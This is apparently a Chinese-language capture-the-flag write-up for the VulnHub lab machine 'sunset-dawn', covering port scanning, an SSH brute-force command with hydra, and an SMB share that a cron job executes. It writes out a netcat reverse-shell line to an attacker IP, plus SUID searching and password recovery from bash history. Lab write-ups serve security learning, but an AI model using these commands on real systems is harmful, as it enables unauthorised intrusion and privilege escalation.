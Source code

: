 # sunset  
## 简述  
https://www.vulnhub.com/entry/sunset-dawn,341/  

## 服务发现和信息收集    
```
nmap 192.168.1.*  
nmap -A  -p 1-65535 192.168.1.165 
```  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200208144746.png)  
打开网站  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200208145400.png)  
发现其中给的信息提示网站正在被建设  
先对网站的服务进行爆破吧  
```
hydra - l root -P /usr/share/wordlists/rockyou.txt  ssh@ip  
```  
### 对目录进行扫描
```
python dirsearch.py -e php -u  
```  
### 发现其中的日志文件夹 
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200208150144.png)  
其他的日志都不能打开，但是management.log 可以打开  
是否是存在文件读取的漏洞，尝试想要访问的文件进行爆破  
打开management.log 其中的数据是  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210150525.png)  
发现可能是一个定时的任务

### 尝试进行上传漏洞挖掘
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200208153033.png)  
发现并没有文件读取漏洞，回到之前的端口上来   
开始对端口进行爆破  
发现开启了smb的端口，很可能存在很多的问题   
***  
卡了很久  
***  
之后是看了别人的wp写出来的  

### 对SMB进行扫描
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210150909.png)  
发现其中正好可以写入文件，又恰恰是执行定时文件的地方，所以写入反弹文件进行上传  
写入的文件的内容  
``` 
nc -e /bin/bash 192.168.1.39 1235 
``` 
 连接命令和上传的脚本  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210151220.png)  
 等待
成功反弹shell  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210150154.png)  
## 权限提升  
交互式shell  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```  
寻找可以特殊指令  
```
find / -perm -u=s -type f 2>/dev/null
```
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210151516.png)  
其中的zsh指令很可疑，所以执行以下 ...
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210151836.png)  
现在是dawn的用户  
在/home/ganimedes/.bash_history 当中看到之前的命令  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210152020.png)  
得到密码  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200210152141.png)
成功提权
## 总结  
通过文件泄露发现定时任务  
继续发现了SMB的上传漏洞，通过利用这个漏洞上传我们的一句话反弹shell的脚本从而获得了一个最基础的权限  
通过特殊的指令以及查找执行指令的历史发现了我们的root密码，从而提权成功  
